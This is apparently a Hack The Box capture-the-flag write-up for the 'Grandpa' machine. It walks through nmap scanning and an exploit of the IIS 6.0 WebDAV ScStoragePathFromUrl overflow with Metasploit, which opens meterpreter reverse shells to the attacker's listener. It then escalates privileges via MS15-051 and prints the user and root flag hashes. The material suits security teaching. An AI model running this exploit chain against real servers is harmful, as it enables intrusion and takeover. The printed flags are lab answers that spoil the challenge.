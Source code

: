 # Grandpa
#### 10.10.10.14
###### Solved by: Dotaplayer365 and revdev


```{r, engine='bash', count_lines}
nmap -T4 -A -v 10.10.10.14

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Thu, 19 Oct 2017 15:38:04 GMT
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK

```

The website shows "Under Construction"

![Alt test](https://github.com/netcatus/HTB-Writeups/blob/master/Grandpa/images/Website.PNG "Website")

We try visiting some webpages and we get something like this

![Alt test](https://github.com/netcatus/HTB-Writeups/blob/master/Grandpa/images/Website.PNG "index.aspx")


Information we have so far:
* IIS 6.0

Searching exploits for IIS 6.0 

```{r, engine='bash', count_lines}
root@kali:~/Hackthebox/Machines/Grandpa# searchsploit IIS 6.0 | grep -v "5.0"
--------------------------------------------------------------- ----------------------------------
 Exploit Title                                                 |  Path
                                                               | (/usr/share/exploitdb/platforms/)
--------------------------------------------------------------- ----------------------------------
Microsoft IIS 6.0 - /AUX / '.aspx' Remote Denial of Service    | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow (Stack Exhaustion) Deni | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)    | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)  | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)    | windows/remote/8806.pl
Microsoft IIS 6.0 / 7.5 (+ PHP) - Multiple Vulnerabilities     | windows/remote/19033.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Buffer Overf | windows/remote/41738.py
--------------------------------------------------------------- ----------------------------------
```

'ScStoragePathFromUrl' exploit :
>Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.

We already know from nmap that the PROPFIND request is supported. So it would'nt be a long shot to try this one out.

```{r, engine='bash', count_lines}
msf > search ScStoragePathFromUrl

Matching Modules
================

   Name                                                 Disclosure Date  Rank    Description
   ----                                                 ---------------  ----    -----------
   exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual   Microsoft IIS WebDav ScStoragePathFromUrl Overflow

```

_Perfect!_

So we would be using something like this

```{r, engine='bash', count_lines}
Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST          10.10.10.14      yes       The target address
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.248     yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86
```

And there you have it!!

Easier than expected
```{r, engine='bash', count_lines}
msf exploit(iis_webdav_scstoragepathfromurl) > exploit
[*] Started reverse TCP handler on 10.10.14.248:4444 
[*] Sending stage (171583 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.248:4444 -> 10.10.10.14:1036) at 2017-10-15 23:25:52 +0530
meterpreter > 
```

When we try to go into the users directory, it gives us "Access Denied"

Looks like Priv esc should give us both the flags.

Time to go huntin.


After some enumeration we see that there are a couple of processes running under NT AUTHORITY 

```{r, engine='bash', count_lines}
meterpreter > ps

Process List
============

 PID   PPID  Name              Arch  Session  User                          Path
 ---   ----  ----              ----  -------  ----                          ----
...                                                  
 1172  388   inetinfo.exe                                                   
 1212  388   svchost.exe                                                    
 1436  1500  w3wp.exe          x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 1500  388   svchost.exe                                                    
 1588  388   svchost.exe                                                    
 1668  1752  rundll32.exe      x86   0                                      C:\WINDOWS\system32\rundll32.exe
 1672  388   alg.exe                                                        
 1820  588   davcdata.exe      x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 1992  1436  rundll32.exe      x86   0                                      C:\WINDOWS\system32\rundll32.exe
...                                            
```

Lets migrate into that process

```{r, engine='bash', count_lines}
meterpreter > migrate 1820
[*] Migrating from 1668 to 1820...
[*] Migration completed successfully.
```

We still get Access Denied, Time to use the exploit suggester

```
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

After trying a few of the suggested exploits, this one worked
```{r, engine='bash', count_lines}
msf exploit(ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.248     yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86
   
   
msf exploit(ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.14.248:4443 
[*] Launching notepad to host the exploit...
[+] Process 2564 launched.
[*] Reflectively injecting the exploit DLL into 2564...
[*] Injecting exploit into 2564...
[*] Exploit injected. Injecting payload into 2564...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (171583 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.248:4443 -> 10.10.10.14:1041) at 2017-10-15 23:36:44 +0530
meterpreter > 
```

**user.txt**
```{r, engine='bash', count_lines}
C:\Documents and Settings\Harry\Desktop>type user.txt
type user.txt
bdff5ec67c3cff017f2bedc146a5d869
```


**root.txt**
```{r, engine='bash', count_lines}
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
9359e905a2c35f861f6a57cecf28bb7b
```

